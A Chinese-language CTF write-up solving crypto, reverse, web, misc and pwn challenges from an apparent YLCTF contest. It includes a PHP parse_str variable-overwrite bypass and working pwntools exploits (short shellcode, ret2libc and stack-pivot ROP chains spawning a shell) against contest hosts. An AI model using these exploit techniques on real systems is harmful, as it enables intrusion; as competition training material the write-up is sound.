









_**选手：Aura**_

# <font style="color:#000000;">Crypto</font>
## <font style="color:#D22D8D;">ezAES</font>
```shell

this is a AES,you maybe need full padding.
key is YLCTF-CRYPTO
iv is YLCTF-IV
AES define is  

from Crypto.Cipher import AES
AES.new(key,2,iv) 
result = b""
padded_data = pad(flag, AES.block_size)
endata = aes.encrypt(padded_data)
print(endata)


\xed\x1d]\xe6p\xb7\xfa\x90/Gu\xf4\xe2\x96\x84\xef90\x92e\xb4\xf8]"\xfc6\xf8\x8cS\xe9b\x19
input your result:error

```

就是个简单的 AES，key 和 iv 都给了，长度不足用 \0 填充，然后直接解。

```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

# Your provided key and IV
key = b'YLCTF-CRYPTO\0\0\0\0'
iv = b'YLCTF-IV\0\0\0\0\0\0\0\0'

# The encrypted data
encrypted_data = b'\xed\x1d\x5d\xe6p\xb7\xfa\x90/Gu\xf4\xe2\x96\x84\xef90\x92e\xb4\xf8]"\xfc6\xf8\x8cS\xe9b\x19'

# Create a new AES cipher
aes = AES.new(key, AES.MODE_CBC, iv)

# Decrypt the data
decrypted_data = aes.decrypt(encrypted_data)

# Unpad the decrypted data
try:
    unpadded_data = unpad(decrypted_data, AES.block_size)
    print(unpadded_data)
except ValueError as e:
    print("An error occurred during unpadding:", e)
#b'keysauikoydasuicxs'


```


## <font style="color:#D22D8D;">ancat</font>
个人感觉这题更应该是 Misc。

给了一个加密脚本以及被加密的图片。

```python

import matplotlib.pyplot as plt
import cv2
import numpy as np
from PIL import Image
def arnold_encode(image, shuffle_times, a, b):
    """ Arnold shuffle for rgb image
    Args:
        image: input original rgb image
        shuffle_times: how many times to shuffle
    Returns:
        Arnold encode image
    """
    arnold_image = np.zeros(shape=image.shape)

    h, w = image.shape[0], image.shape[1]
    N = h

    for time in range(shuffle_times):
        for ori_x in range(h):
            for ori_y in range(w):

                new_x = (1*ori_x + b*ori_y)% N
                new_y = (a*ori_x + (a*b+1)*ori_y) % N

                arnold_image[new_x, new_y, :] = image[ori_x, ori_y, :]

        image = np.copy(arnold_image)

    cv2.imwrite('en_flag.png', arnold_image, [int(cv2.IMWRITE_PNG_COMPRESSION), 0])
    return arnold_image

img = cv2.imread('flag.png')
arnold_encode(img,3,6,9)


```

上网搜一下加密脚本里面的注释，直接找到了一模一样的加密脚本。

这是猫脸变换，文章里面还给了解密脚本，直接粘下来用。

```python

import matplotlib.pyplot as plt
import cv2
import numpy as np
from PIL import Image

def arnold_decode(image, shuffle_times, a, b):
    """ decode for rgb image that encoded by Arnold
    Args:
        image: rgb image encoded by Arnold
        shuffle_times: how many times to shuffle
    Returns:
        decode image
    """
    # 1:创建新图像
    decode_image = np.zeros(shape=image.shape,dtype=int)

    # 2：计算N
    h, w = image.shape[0], image.shape[1]
    N = w  # 或N=w

    # 3：遍历像素坐标变换
    for time in range(shuffle_times):
        for ori_x in range(h):
            for ori_y in range(w):
                # 按照公式坐标变换
                new_x = ((a * b + 1) * ori_x + (-b) * ori_y) % N
                new_y = ((-a) * ori_x + ori_y) % N
                decode_image[new_x, new_y, :] = image[ori_x, ori_y, :]
        image = np.copy(decode_image)
    cv2.imwrite('de_flag.png', decode_image)
    return decode_image

img = cv2.imread('en_flag.png')
arnold_decode(img,3,6,9)


```


## <font style="color:#D22D8D;">hhhhhash</font>
```python
from Crypto.Util.number import getPrime, isPrime

e = 65537
N = 1
while (N - 1) % e == 0:
    N = getPrime(2048)

def x(a, b):
    return bytes(x^y for x,y in zip(a,b))

class C():
    def __init__(self, N, e):
        self.N = N
        self.e = e
        self._state = b"\x00" * 256
        self.s = set()

    def _h(self, block):
        assert len(block) == 256

        if block in self.s:
            raise ValueError("bad")
        self.s.add(block)

        data = int.from_bytes(block, "big")
        if data < 2 or data >= N-1:
            raise ValueError("bad")

        data = pow(data, self.e, self.N)
        if data in self.s:
            raise ValueError("bad")
        self.s.add(data)

        return data.to_bytes(256, "big")

    def u(self, data):
        assert len(data) % 256 == 0

        for block in range(0, len(data), 256):
            block = data[block:block+256]
            self._state = x(self._state, self._h(block))

        return self

    def hd(self):
        return self._state.hex()

    def __repr__(self):
        return f"C({self.N}, {self.e})"

def m():
    h = C(N, e)
    print(h)

    print("Input the data you'd like to process:")
    p = bytes.fromhex(input("> "))
    if len(p) < 256 or len(p) % 256 != 0:
        raise ValueError("Invalid input!")

    z = h.u(p).hd()
    print("hash(input) == ", z)
    if z == "00" * 256:
        with open("/flag","r") as f:
            print(f.read())
    else:
        print("...")

m()

```

过程很好理解，其实就是传入一个长度大于 256 且是 256 的整数倍的 hex 字符串，然后将其以每段长度为 256 分成若干个块，每块进行一次 RSA。

最后要求每块最终异或的结果为 0。

其实很好构造，这里 RSA 用的 n 是素数，那么 phi 就是 n-1，把我们的目标字符串当作密文 c，那我们传入的就是 m，其实就是解 RSA。

```python
import libnum
n = ?
e = 65537
payload = ''
def RSA(c):
    c = libnum.s2n(c)
    phi = n-1
    d = libnum.invmod(e,phi)
    m = pow(c,d,n)
    ans = hex(m).replace('0x','')
    print(ans)
    return ans
    #print(libnum.n2s(pow(m,e,n)))
payload+=RSA('\x01'*256)
payload+=RSA('\x02'*256)
payload+=RSA('\x03'*256)
print(payload)


```

本地跑一下，通了，远程环境有点怪，需要多试几次。


# Reverse
## <font style="color:#D22D8D;">ezwasm</font>
给了一个 wasm 文件，网上搜个教程给他转成 wat 文件，看不懂。

取一下密文，解一下 hex，发现很像 ROT，试几个偏移量直接出了。。。。。



然后大小写互换一下就好了。

PS: 不记得数字需不需要偏移了，赛后交不了，反正试一下就好了。

## <font style="color:#D22D8D;">三点几啦饮茶先</font>




就是个小改的 XTEA，delta 改一下，key 改一下，轮数改一下就好了，跑出来的结果丢到交互

里面，然后出 flag。

```cpp
#include <bits/stdc++.h>
using namespace std;
int key[] = {0x1001,0x2002,0x3003,0x4004};
void decrypt(uint32_t &v4,uint32_t &v5)
{
    uint32_t delta = 0x114514B9;
    uint32_t v3 = delta*40;
    for(int i=0;i<40;i++)
    {
        v5 -= (((16 * v4) ^ (v4 >> 5)) + v4) ^ (key[((((v3>>11) & 3)))]+v3);
        v3 -= delta;
        v4 -= (((v5 >> 3) ^ (4 * v5)) + v5) ^ ((key[(v3&3)])+v3);
    }
}
string ToString(uint32_t x)
{
    uint32_t temp = 256*256*256;
    string ans="";
    for(int i=0;i<=3;i++)
    {
        int c = x/temp;
        ans+=char(c);
        x-=c*temp;
        temp/=256;
    }
    reverse(ans.begin(),ans.end());
    return ans;
}
uint32_t v4s[]={0x72093D7C};
uint32_t v5s[]={0xB60BF47D};
int main()
{
    for(int i=0;i<1;i++)
    {
        decrypt(v4s[i],v5s[i]);
        //cout<<v4s[i]<<" "<<v5s[i]<<endl;
        //cout<<v4s[i]<<" "<<v5s[i]<<endl;
        printf("%x\n",v4s[i]);
        printf("%x\n",v5s[i]);
        //cout<<ToString(v4s[i])<<ToString(v5s[i]);
    }
    return 0;
}


```


## <font style="color:#D22D8D;">ezapk</font>
进一下 MainActivity，看到一个检查 key 的过程，以及对 flag 的 SM4 加密。

```java
private boolean validateFlag(byte[] data) throws Exception {
        if (data.length < 21) {
            return false;
        }
        byte[] key = new byte[16];
        System.arraycopy(data, 5, key, 0, 16);
        if ((((((((((((((((key[0] * Integer.parseInt("41")) - (key[1] * Integer.parseInt("16"))) + (key[2] * Integer.parseInt("84"))) + (key[3] * Integer.parseInt("35"))) - (key[4] * Integer.parseInt("74"))) + (key[5] * Integer.parseInt("33"))) + (key[6] * Integer.parseInt("58"))) + (key[7] * Integer.parseInt("70"))) - (key[8] * Integer.parseInt("83"))) - (key[9] * Integer.parseInt("48"))) + (key[10] * Integer.parseInt("68"))) + (key[11] * Integer.parseInt("82"))) + (key[12] * Integer.parseInt("90"))) - (key[13] * Integer.parseInt("37"))) - (key[14] * Integer.parseInt("60"))) + (key[15] * Integer.parseInt("23")) != 22064 || (((((((((((((((-key[0]) * Integer.parseInt("63")) - (key[1] * Integer.parseInt("76"))) - (key[2] * Integer.parseInt("79"))) - (key[3] * Integer.parseInt("34"))) + (key[4] * Integer.parseInt("64"))) - (key[5] * Integer.parseInt("93"))) - (key[6] * Integer.parseInt("16"))) - (key[7] * Integer.parseInt("69"))) - (key[8] * Integer.parseInt("34"))) + (key[9] * Integer.parseInt("19"))) + (key[10] * Integer.parseInt("17"))) + (key[11] * Integer.parseInt("66"))) + (key[12] * Integer.parseInt("93"))) - (key[13] * Integer.parseInt("57"))) + (key[14] * Integer.parseInt("77")) + (key[15] * Integer.parseInt("45")) != -9131 || ((((((((((((((((-key[0]) * Integer.parseInt("28")) + (key[1] * Integer.parseInt("79"))) - (key[2] * Integer.parseInt("43"))) + (key[3] * Integer.parseInt("19"))) + (key[4] * Integer.parseInt("58"))) + (key[5] * Integer.parseInt("82"))) - (key[6] * Integer.parseInt("20"))) + (key[7] * Integer.parseInt("15"))) - (key[8] * Integer.parseInt("15"))) - (key[9] * Integer.parseInt("65"))) + (key[10] * Integer.parseInt("92"))) + (key[11] * Integer.parseInt("71"))) + (key[12] * Integer.parseInt("34"))) + (key[13] * Integer.parseInt("71"))) - (key[14] * Integer.parseInt("26"))) + (key[15] * Integer.parseInt("37")) != 30351 || (((((((((((((((key[0] * Integer.parseInt("60")) + (key[1] * Integer.parseInt("38"))) - (key[2] * Integer.parseInt("24"))) + (key[3] * Integer.parseInt("24"))) + (key[4] * Integer.parseInt("36"))) + (key[5] * Integer.parseInt("50"))) - (key[6] * Integer.parseInt("56"))) - (key[7] * Integer.parseInt("25"))) - (key[8] * Integer.parseInt("88"))) - (key[9] * Integer.parseInt("14"))) - (key[10] * Integer.parseInt("77"))) + (key[11] * Integer.parseInt("77"))) + (key[12] * Integer.parseInt("80"))) - (key[13] * Integer.parseInt("41"))) - (key[14] * Integer.parseInt("42"))) + (key[15] * Integer.parseInt("90")) != 9755 || (((((((((((((((key[0] * Integer.parseInt("13")) - (key[1] * Integer.parseInt("21"))) - (key[2] * Integer.parseInt("96"))) + (key[3] * Integer.parseInt("82"))) + (key[4] * Integer.parseInt("63"))) + (key[5] * Integer.parseInt("87"))) - (key[6] * Integer.parseInt("71"))) - (key[7] * Integer.parseInt("77"))) + (key[8] * Integer.parseInt("34"))) + (key[9] * Integer.parseInt("95"))) - (key[10] * Integer.parseInt("21"))) + (key[11] * Integer.parseInt("51"))) + (key[12] * Integer.parseInt("54"))) + (key[13] * Integer.parseInt("81"))) - (key[14] * Integer.parseInt("70"))) + (key[15] * Integer.parseInt("86")) != 25623 || (((((((((((((((key[0] * Integer.parseInt("18")) + (key[1] * Integer.parseInt("70"))) - (key[2] * Integer.parseInt("82"))) + (key[3] * Integer.parseInt("69"))) + (key[4] * Integer.parseInt("77"))) + (key[5] * Integer.parseInt("44"))) + (key[6] * Integer.parseInt("41"))) - (key[7] * Integer.parseInt("43"))) - (key[8] * Integer.parseInt("76"))) + (key[9] * Integer.parseInt("67"))) + (key[10] * Integer.parseInt("36"))) + (key[11] * Integer.parseInt("32"))) - (key[12] * Integer.parseInt("19"))) - (key[13] * Integer.parseInt("41"))) - (key[14] * Integer.parseInt("69"))) + (key[15] * Integer.parseInt("39")) != 18410 || (((((((((((((((key[0] * Integer.parseInt("59")) - (key[1] * Integer.parseInt("83"))) - (key[2] * Integer.parseInt("34"))) - (key[3] * Integer.parseInt("55"))) - (key[4] * Integer.parseInt("42"))) - (key[5] * Integer.parseInt("86"))) + (key[6] * Integer.parseInt("93"))) + (key[7] * Integer.parseInt("97"))) - (key[8] * Integer.parseInt("88"))) - (key[9] * Integer.parseInt("90"))) - (key[10] * Integer.parseInt("63"))) - (key[11] * Integer.parseInt("76"))) - (key[12] * Integer.parseInt("84"))) - (key[13] * Integer.parseInt("84"))) + (key[14] * Integer.parseInt("96"))) - (key[15] * Integer.parseInt("76")) != -39929 || (((((((((((((-key[0]) * Integer.parseInt("72")) + (key[1] * Integer.parseInt("81"))) - (key[2] * Integer.parseInt("10"))) - (key[3] * Integer.parseInt("58"))) - (key[4] * Integer.parseInt("55"))) - (key[5] * Integer.parseInt("94"))) - (key[6] * Integer.parseInt("48"))) + (key[7] * Integer.parseInt("79"))) - (key[8] * Integer.parseInt("81"))) - (key[9] * Integer.parseInt("83"))) - (key[10] * Integer.parseInt("32"))) - (key[11] * Integer.parseInt("77"))) + (key[12] * Integer.parseInt("17")) + (key[13] * Integer.parseInt("78")) + (key[14] * Integer.parseInt("97")) + (key[15] * Integer.parseInt("97")) != -11909 || (((((((((((((((key[0] * Integer.parseInt("81")) + (key[1] * Integer.parseInt("45"))) - (key[2] * Integer.parseInt("37"))) + (key[3] * Integer.parseInt("69"))) + (key[4] * Integer.parseInt("48"))) - (key[5] * Integer.parseInt("22"))) - (key[6] * Integer.parseInt("61"))) - (key[7] * Integer.parseInt("44"))) - (key[8] * Integer.parseInt("26"))) - (key[9] * Integer.parseInt("30"))) + (key[10] * Integer.parseInt("21"))) + (key[11] * Integer.parseInt("41"))) + (key[12] * Integer.parseInt("33"))) - (key[13] * Integer.parseInt("49"))) - (key[14] * Integer.parseInt("98"))) + (key[15] * Integer.parseInt("94")) != 11780 || (((((((((((((((key[0] * Integer.parseInt("72")) - (key[1] * Integer.parseInt("94"))) + (key[2] * Integer.parseInt("77"))) - (key[3] * Integer.parseInt("70"))) + (key[4] * Integer.parseInt("10"))) - (key[5] * Integer.parseInt("33"))) + (key[6] * Integer.parseInt("58"))) - (key[7] * Integer.parseInt("48"))) + (key[8] * Integer.parseInt("65"))) + (key[9] * Integer.parseInt("21"))) + (key[10] * Integer.parseInt("33"))) - (key[11] * Integer.parseInt("35"))) - (key[12] * Integer.parseInt("90"))) + (key[13] * Integer.parseInt("69"))) - (key[14] * Integer.parseInt("10"))) - (key[15] * Integer.parseInt("20")) != -6077 || ((((((((((((key[0] * Integer.parseInt("11")) + (key[1] * Integer.parseInt("28"))) + (key[2] * Integer.parseInt("13"))) + (key[3] * Integer.parseInt("92"))) + (key[4] * Integer.parseInt("24"))) - (key[5] * Integer.parseInt("35"))) + (key[6] * Integer.parseInt("80"))) + (key[7] * Integer.parseInt("51"))) + (key[8] * Integer.parseInt("41"))) + (key[9] * Integer.parseInt("42"))) - (key[10] * Integer.parseInt("19"))) - (key[11] * Integer.parseInt("78"))) + (key[12] * Integer.parseInt("32")) + (key[13] * Integer.parseInt("33")) + (key[14] * Integer.parseInt("27")) + (key[15] * Integer.parseInt("40")) != 22889 || (((((((((((((((key[0] * Integer.parseInt("62")) + (key[1] * Integer.parseInt("33"))) + (key[2] * Integer.parseInt("67"))) + (key[3] * Integer.parseInt("13"))) + (key[4] * Integer.parseInt("24"))) - (key[5] * Integer.parseInt("96"))) + (key[6] * Integer.parseInt("46"))) - (key[7] * Integer.parseInt("94"))) - (key[8] * Integer.parseInt("91"))) + (key[9] * Integer.parseInt("25"))) - (key[10] * Integer.parseInt("37"))) + (key[11] * Integer.parseInt("17"))) + (key[12] * Integer.parseInt("39"))) + (key[13] * Integer.parseInt("80"))) - (key[14] * Integer.parseInt("94"))) - (key[15] * Integer.parseInt("22")) != -8594 || ((((((((((((key[0] * Integer.parseInt("57")) - (key[1] * Integer.parseInt("83"))) - (key[2] * Integer.parseInt("82"))) + (key[3] * Integer.parseInt("78"))) - (key[4] * Integer.parseInt("37"))) - (key[5] * Integer.parseInt("76"))) + (key[6] * Integer.parseInt("84"))) + (key[7] * Integer.parseInt("63"))) + (key[8] * Integer.parseInt("33"))) + (key[9] * Integer.parseInt("50"))) - (key[10] * Integer.parseInt("96"))) - (key[11] * Integer.parseInt("12"))) + (key[12] * Integer.parseInt("96")) + (key[13] * Integer.parseInt("19")) + (key[14] * Integer.parseInt("62")) + (key[15] * Integer.parseInt("51")) != 7626 || ((((((((((((((((-key[0]) * Integer.parseInt("67")) - (key[1] * Integer.parseInt("85"))) + (key[2] * Integer.parseInt("13"))) + (key[3] * Integer.parseInt("11"))) - (key[4] * Integer.parseInt("53"))) + (key[5] * Integer.parseInt("40"))) + (key[6] * Integer.parseInt("52"))) - (key[7] * Integer.parseInt("43"))) - (key[8] * Integer.parseInt("63"))) + (key[9] * Integer.parseInt("61"))) - (key[10] * Integer.parseInt("18"))) + (key[11] * Integer.parseInt("14"))) - (key[12] * Integer.parseInt("92"))) + (key[13] * Integer.parseInt("77"))) - (key[14] * Integer.parseInt("91"))) + (key[15] * Integer.parseInt("42")) != -7984 || (((((((((((((((key[0] * Integer.parseInt("53")) + (key[1] * Integer.parseInt("69"))) - (key[2] * Integer.parseInt("57"))) + (key[3] * Integer.parseInt("40"))) + (key[4] * Integer.parseInt("48"))) - (key[5] * Integer.parseInt("50"))) - (key[6] * Integer.parseInt("40"))) - (key[7] * Integer.parseInt("90"))) + (key[8] * Integer.parseInt("69"))) + (key[9] * Integer.parseInt("84"))) + (key[10] * Integer.parseInt("65"))) - (key[11] * Integer.parseInt("56"))) + (key[12] * Integer.parseInt("90"))) + (key[13] * Integer.parseInt("56"))) - (key[14] * Integer.parseInt("50"))) + (key[15] * Integer.parseInt("97")) != 23771 || (((((((((((((((key[0] * Integer.parseInt("85")) + (key[1] * Integer.parseInt("86"))) + (key[2] * Integer.parseInt("19"))) - (key[3] * Integer.parseInt("47"))) + (key[4] * Integer.parseInt("16"))) - (key[5] * Integer.parseInt("17"))) - (key[6] * Integer.parseInt("77"))) + (key[7] * Integer.parseInt("54"))) + (key[8] * Integer.parseInt("59"))) - (key[9] * Integer.parseInt("19"))) - (key[10] * Integer.parseInt("53"))) + (key[11] * Integer.parseInt("52"))) - (key[12] * Integer.parseInt("64"))) + (key[13] * Integer.parseInt("95"))) - (key[14] * Integer.parseInt("66"))) - (key[15] * Integer.parseInt("61")) != -6025) {
            return false;
        }
        System.out.println(Myjni.encode(Myjni.getkey()));
        byte[] encrypt = Sm4Util.encrypt("SM4/CBC/PKCS7PADDING", key, Myjni.encode(Myjni.getkey()).getBytes(), data);
        return Base64.encodeToString(encrypt, 2).equals("3egreyyixRkVtvuCbyuWRmWpmZa562dweKpSajvGUnxrSBx2gFxz2AjnL4eUdcUO");
    }


```

key 很好解决，z3 求解器跑一下就出了。

IV 应该是 `Myjni.encode(Myjni.getkey()).getBytes()` 跑出来的，还需要去逆一下 .so 文件。

```python
import z3
k0,k1,k2,k3,k4,k5,k6,k7,k8,k9,k10,k11,k12,k13,k14,k15 = z3.Ints('k0 k1 k2 k3 k4 k5 k6 k7 k8 k9 k10 k11 k12 k13 k14 k15')
s = z3.Solver()
s.add((((((((((((((((k0 * 41) - (k1 * 16)) + (k2 * 84)) + (k3 * 35)) - (k4 * 74)) + (k5 * 33)) + (k6 * 58)) + (k7 * 70)) - (k8 * 83)) - (k9 * 48)) + (k10 * 68)) + (k11 * 82)) + (k12 * 90)) - (k13 * 37)) - (k14 * 60)) + (k15 * 23) == 22064)
s.add((((((((((((((((-k0) * 63) - (k1 * 76)) - (k2 * 79)) - (k3 * 34)) + (k4 * 64)) - (k5 * 93)) - (k6 * 16)) - (k7 * 69)) - (k8 * 34)) + (k9 * 19)) + (k10 * 17)) + (k11 * 66)) + (k12 * 93)) - (k13 * 57)) + (k14 * 77) + (k15 * 45) == -9131)
s.add(((((((((((((((((-k0) * 28) + (k1 * 79)) - (k2 * 43)) + (k3 * 19)) + (k4 * 58)) + (k5 * 82)) - (k6 * 20)) + (k7 * 15)) - (k8 * 15)) - (k9 * 65)) + (k10 * 92)) + (k11 * 71)) + (k12 * 34)) + (k13 * 71)) - (k14 * 26)) + (k15 * 37) == 30351)
s.add((((((((((((((((k0 * 60) + (k1 * 38)) - (k2 * 24)) + (k3 * 24)) + (k4 * 36)) + (k5 * 50)) - (k6 * 56)) - (k7 * 25)) - (k8 * 88)) - (k9 * 14)) - (k10 * 77)) + (k11 * 77)) + (k12 * 80)) - (k13 * 41)) - (k14 * 42)) + (k15 * 90) == 9755)
s.add((((((((((((((((k0 * 13) - (k1 * 21)) - (k2 * 96)) + (k3 * 82)) + (k4 * 63)) + (k5 * 87)) - (k6 * 71)) - (k7 * 77)) + (k8 * 34)) + (k9 * 95)) - (k10 * 21)) + (k11 * 51)) + (k12 * 54)) + (k13 * 81)) - (k14 * 70)) + (k15 * 86) == 25623)
s.add((((((((((((((((k0 * 18) + (k1 * 70)) - (k2 * 82)) + (k3 * 69)) + (k4 * 77)) + (k5 * 44)) + (k6 * 41)) - (k7 * 43)) - (k8 * 76)) + (k9 * 67)) + (k10 * 36)) + (k11 * 32)) - (k12 * 19)) - (k13 * 41)) - (k14 * 69)) + (k15 * 39) == 18410)
s.add((((((((((((((((k0 * 59) - (k1 * 83)) - (k2 * 34)) - (k3 * 55)) - (k4 * 42)) - (k5 * 86)) + (k6 * 93)) + (k7 * 97)) - (k8 * 88)) - (k9 * 90)) - (k10 * 63)) - (k11 * 76)) - (k12 * 84)) - (k13 * 84)) + (k14 * 96)) - (k15 * 76) == -39929)
s.add((((((((((((((-k0) * 72) + (k1 * 81)) - (k2 * 10)) - (k3 * 58)) - (k4 * 55)) - (k5 * 94)) - (k6 * 48)) + (k7 * 79)) - (k8 * 81)) - (k9 * 83)) - (k10 * 32)) - (k11 * 77)) + (k12 * 17) + (k13 * 78) + (k14 * 97) + (k15 * 97) == -11909)
s.add((((((((((((((((k0 * 81) + (k1 * 45)) - (k2 * 37)) + (k3 * 69)) + (k4 * 48)) - (k5 * 22)) - (k6 * 61)) - (k7 * 44)) - (k8 * 26)) - (k9 * 30)) + (k10 * 21)) + (k11 * 41)) + (k12 * 33)) - (k13 * 49)) - (k14 * 98)) + (k15 * 94) == 11780)
s.add((((((((((((((((k0 * 72) - (k1 * 94)) + (k2 * 77)) - (k3 * 70)) + (k4 * 10)) - (k5 * 33)) + (k6 * 58)) - (k7 * 48)) + (k8 * 65)) + (k9 * 21)) + (k10 * 33)) - (k11 * 35)) - (k12 * 90)) + (k13 * 69)) - (k14 * 10)) - (k15 * 20) == -6077)
s.add(((((((((((((k0 * 11) + (k1 * 28)) + (k2 * 13)) + (k3 * 92)) + (k4 * 24)) - (k5 * 35)) + (k6 * 80)) + (k7 * 51)) + (k8 * 41)) + (k9 * 42)) - (k10 * 19)) - (k11 * 78)) + (k12 * 32) + (k13 * 33) + (k14 * 27) + (k15 * 40) == 22889)
s.add((((((((((((((((k0 * 62) + (k1 * 33)) + (k2 * 67)) + (k3 * 13)) + (k4 * 24)) - (k5 * 96)) + (k6 * 46)) - (k7 * 94)) - (k8 * 91)) + (k9 * 25)) - (k10 * 37)) + (k11 * 17)) + (k12 * 39)) + (k13 * 80)) - (k14 * 94)) - (k15 * 22) == -8594)
s.add(((((((((((((k0 * 57) - (k1 * 83)) - (k2 * 82)) + (k3 * 78)) - (k4 * 37)) - (k5 * 76)) + (k6 * 84)) + (k7 * 63)) + (k8 * 33)) + (k9 * 50)) - (k10 * 96)) - (k11 * 12)) + (k12 * 96) + (k13 * 19) + (k14 * 62) + (k15 * 51) == 7626)
s.add(((((((((((((((((-k0) * 67) - (k1 * 85)) + (k2 * 13)) + (k3 * 11)) - (k4 * 53)) + (k5 * 40)) + (k6 * 52)) - (k7 * 43)) - (k8 * 63)) + (k9 * 61)) - (k10 * 18)) + (k11 * 14)) - (k12 * 92)) + (k13 * 77)) - (k14 * 91)) + (k15 * 42) == -7984)
s.add((((((((((((((((k0 * 53) + (k1 * 69)) - (k2 * 57)) + (k3 * 40)) + (k4 * 48)) - (k5 * 50)) - (k6 * 40)) - (k7 * 90)) + (k8 * 69)) + (k9 * 84)) + (k10 * 65)) - (k11 * 56)) + (k12 * 90)) + (k13 * 56)) - (k14 * 50)) + (k15 * 97) == 23771)
s.add((((((((((((((((k0 * 85) + (k1 * 86)) + (k2 * 19)) - (k3 * 47)) + (k4 * 16)) - (k5 * 17)) - (k6 * 77)) + (k7 * 54)) + (k8 * 59)) - (k9 * 19)) - (k10 * 53)) + (k11 * 52)) - (k12 * 64)) + (k13 * 95)) - (k14 * 66)) - (k15 * 61) == -6025)
s.check()
print(s.model())
'''
48 55 51 99 56 99 48 55 45 52 102 53 55 45 52 98
'''
'''
[
k0 = 48,
k1 = 55,
k2 = 51,
k3 = 99
k4 = 56,
k5 = 99,
k6 = 48,
k7 = 55,
k8 = 45,
k9 = 52,
k10 = 102,
k11 = 53,
k12 = 55,
k13 = 45,
k14 = 52,
k15 = 98,
 
 ]
 '''


```

跑出来是 073c8c07-4f57-4b。

接下来去逆 .so。

太长了，不放代码了，直接说逻辑。

getkey() 函数看起来很恶心，其实就是一个换表 base64，表能够在 strings 里面找到，大致就是给字符串 ylctfezapkgi base64 加密，然后丢入 encode() 函数。

encode() 函数也有点恶心，但其实就是把刚才传入的字符串进行了一个 ROT17，然后打乱了一下顺序，最后就是最终的 IV。

```python
box = [1,7,3,6,4,5,2,0]
enc = "eJsxdRZgehQra2dk"
str = []
def rot17(text):
    result = ""
    for char in text:
        if 'A' <= char <= 'Z':
            result += chr((ord(char) - ord('A') + 17) % 26 + ord('A'))
        elif 'a' <= char <= 'z':
            result += chr((ord(char) - ord('a') + 17) % 26 + ord('a'))
        else:
            result += char
    return result
for i in enc:
    str.append(i)
iv = ""
str1 = str[:8]
str2 = str[8:]
# print(str1)
# print(str2)
for i in range(len(str1)):
    iv+=str1[box[i]]
for i in range(len(str2)):
    iv+=str2[box[i]]
print(rot17(iv))
#AxoQuIjvybiur2Hv


```




## <font style="color:#D22D8D;">mmmmmmmov</font>
汇编全是 mov，吓死了，先看了一眼 strings。



有 AES，先去取一下密文，看看是什么东西。


分了 3 段，可能是拼起来解？key 又是多少呢？



这个 0123456789abcdef 在这里被用了，而且长度恰好 16，大概率是 key，IV 的话没找到，那就暂且认为不需要。

看一眼 R2 寄存器，貌似有个异或，大概率是这 3 个字符串分别异或了 0x11，0x22，0x33，用 cyberchef 解一下试试。




# Web
## <font style="color:#D22D8D;">Cmnts</font>
看源码，解 base64。

访问 /get_th1s_f1ag.php。

```php
<?php
include 'flag.php';
parse_str($_SERVER['QUERY_STRING']);

if (isset($pass)) {
    $key = md5($pass);
}
if (isset($key) && $key === 'a7a795a8efb7c30151031c2cb700ddd9') {
    echo $flag;
}
else {
    highlight_file(__FILE__);
}
```

谁说我必须要传 pass，我只传一个符合条件的 key 就好了。


# Misc
## <font style="color:#D22D8D;">Trace</font>
给了一个图片，010 发现图片后面有一大堆 base64，解一下。


解出来是个 rar 压缩包，发现有密码。

ARCHPR 爆不了，因为这是 rar5，只能使用 john 搭配 hashcat 进行爆破。

爆出来以后解出来一张怪怪的图片。


不过很好修，用 windows 自带的画图工具，自由选择+透明选择根据轮廓拼起来即可。



# Pwn
## <font style="color:#D22D8D;">shortshell</font>


打 5 个字节指令跳转即可。

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.log_level = 'debug'
p = remote('challenge.yuanloo.com',46794)
payload = b'\x58\x04\x0b\xff\xe0'
p.send(payload)
p.interactive()
```

## <font style="color:#D22D8D;">ezstack2</font>


stack() 函数有栈溢出。



直接打 ret2libc 就行了，libc 在线找，libc6_2.31-0ubuntu9.9_amd64 就可以。

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

banary = "./ezstack2"
elf = ELF(banary)
p = remote("challenge.yuanloo.com",23816)
func = 0x400739
pop_rdi = 0x400823
leave_ret = 0x4007B3
ret = 0x40056e
system = elf.sym["system"]
bss = elf.bss(0x700)
p.recvuntil(b'good stack')
pay = b'a'*0x30 + p64(bss) + p64(pop_rdi) + p64(elf.got["puts"]) + p64(elf.sym["puts"]) + p64(func)
p.sendline(pay)
puts_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
print(hex(puts_addr))
libc = ELF('./libc.so')
libc_base = puts_addr - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + libc.search('/bin/sh').__next__()
print(hex(libc_base))
pause()
payload = b'a'*0x38 + p64(ret) + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
p.sendline(payload)
p.interactive()
```


## <font style="color:#D22D8D;">magicread</font>
给了 libc，一次 read，栈迁移。


```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

banary = "./pwn"
elf = ELF(banary)
libc = ELF("./libc-2.23.so")
p = remote('challenge.yuanloo.com',49287)
pop_rdi = 0x400723
ret = 0x4004c6
p.recvuntil(b"just read")
pay = b'a'*0x40 + p64(elf.bss(0x500)) + p64(0x400675)
p.send(pay)
rop = p64(elf.bss(0x600)) + p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(0x400675) + p64(0x400691)
rop = rop.ljust(0x40, b'a') + p64(elf.bss(0x500)-0x40) + p64(0x400691)
p.send(rop)
puts_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b'\x00'))
print(hex(puts_addr))
pause()
libc_base = puts_addr - libc.symbols['puts']
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b"/bin/sh"))
payload =  p64(pop_rdi) + p64(binsh) + p64(system)
payload = payload.ljust(0x40, b'a') + p64(elf.bss(0x600)-0x48) + p64(0x400691)
p.sendline(payload)
p.interactive()
```

